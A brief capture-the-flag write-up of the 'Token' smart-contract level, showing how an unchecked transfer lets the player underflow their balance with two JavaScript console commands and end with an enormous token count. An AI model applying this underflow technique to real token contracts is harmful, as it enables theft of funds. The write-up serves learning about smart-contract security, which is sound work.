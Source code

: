 # Token

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

## Solution

The contract doesn't check for a valid balance so we underflow our balance to get a lot of coins.

1. Sent 21 tokens to the contract owner using `await contract.transfer(await contract.address, 21)`
2. Verified that my balance became great again with `await contract.balanceOf('0xFe8070fD6766868a66773A13035a1Cb4DF79A1E0')`

**Final Balance:** 1.15792089237316195423570985008687907853269984665640564039457584007913129639935e+77
